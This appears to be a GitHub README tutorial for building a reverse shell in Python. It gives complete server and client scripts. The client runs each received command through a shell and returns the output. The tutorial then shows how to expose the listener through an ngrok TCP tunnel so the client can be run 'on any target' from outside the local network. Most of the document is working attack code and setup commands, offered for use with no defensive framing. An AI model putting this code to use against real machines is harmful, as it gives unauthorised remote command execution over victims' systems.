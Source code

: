 # reverse-shell-python
reverse shell with python
<img src="imgs/1.png">
#Some basics
What is a reverse shell? With a reverse shell, the target makes the connection. On your client is run a server program, which listening for incoming connections. And the target execute a program, which connect to your client. Then you can run commands on the target from your client. My research:
- Acunetix
- PythonCode
- netsparker
#Python
We will write two small Python scripts one for the server and one for the client. The only modules we use are sockets and the subprocess. Make sure you have read the documentation. The programs are short and self-explanatory, nothing complicated just a little loop.
#Server
```
import socket

HOST = '0.0.0.0'
PORT = 5555

# set up the socket so that it waits for an incoming connection
s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(1)
print(f'[*] listening as {HOST}:{PORT}')

# waiting for the target and sent a welcome message if it connected
client_s, client_addr = s.accept()
print(f'[*] client connected {client_addr}')
client_s.send('welcome'.encode())

# this loop will run, until you enter 'quit'
while True:

    # 1. enter the command and send it to the target
    cmd = input('>>> ')
    client_s.send(cmd.encode())

    # check if you want to quit
    if cmd.lower() == 'quit':
        break

    # get the result of the command, executed on the target pc
    result = client_s.recv(1024).decode()
    print(result)

client_s.close()
s.close()
```
#Client
```
import socket
import subprocess

HOST = '0.0.0.0'
PORT = 5555

# set up the socket and connect to the server
s = socket.socket()
s.connect((HOST, PORT))

# get the welcome message
msg = s.recv(1024).decode()
print('[*] server:', msg)

# this loop will run until it receive 'quit'
while True:

    # receive the command and print it
    cmd = s.recv(1024).decode()
    print(f'[*] receive {cmd}')

    # check if you want to quit
    if cmd.lower() == 'quit':
        break

    # now run the command and get the result.
    try:
        result = subprocess.check_output(cmd, stderr=subprocess.STDOUT, shell=True)
    except Exception as e:
        result = str(e).encode()

    # if the command has no output, send 'ok' so the server knows everything is okay
    if len(result) == 0:
        result = 'OK'.encode()

    # send teh result to the server
    s.send(result)

s.close()
```
#How to run
We only uses the Python Standard Library, so we don't have to install anything. Simple execute
```
python3 server.py
```
and
```
python3 client.py
```
<img src="imgs/2.png">
The server run with HOST=0.0.0.0 so that it listen on all incoming connection. On some examples you read something like HOST=localhost or HOST=127.0.0.1. But then it's only listen on connection from the localhost. You shouldn't change the HOST of the server script. But if you run the client on another PC, you have to enter the IP address of the server for the HOST. You get a problem if the PC is not in your local network. Of course you can forward the port in your router and then specify your public IP as HOST. But I want to show you another way.
#ngrok
ngrok is a reverse proxy that creates a secure tunnel from a public endpoint to a locally running web service. Simply put, with ngrok you can make any local service public. And we will make our server public. Go to ngrok sign up and follow the setup tutorial for your system. For me it's
# how to use ngrok
https://youtu.be/PRw_-ZvvRL4
**`download 👇`**
```
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
```
**`unzip 👇`**
```
unzip ngrok-stable-linux-amd64.zip
```
**`connect your account 👇`**
```
./ngrok authtoken 1WeW...
```
**`exposed the server 👇`**
```
./ngrok tcp 5555
```
Now you are ready to run the client on any target, but you have to change the HOST and PORT to the values from ngrok. For my example that will be
```
...
HOST = '4.tcp.ngrok.io'
PORT = 12050
....
```
<img src="imgs/3.png">
#Conclusion
As you can see, it's not that complicated to create your own reverse shell and make it public. I know, there's a lot of space to improve this script. But for a really Simple example they are quite good enough.
#how to use script
https://youtu.be/kFp_yG3r23c
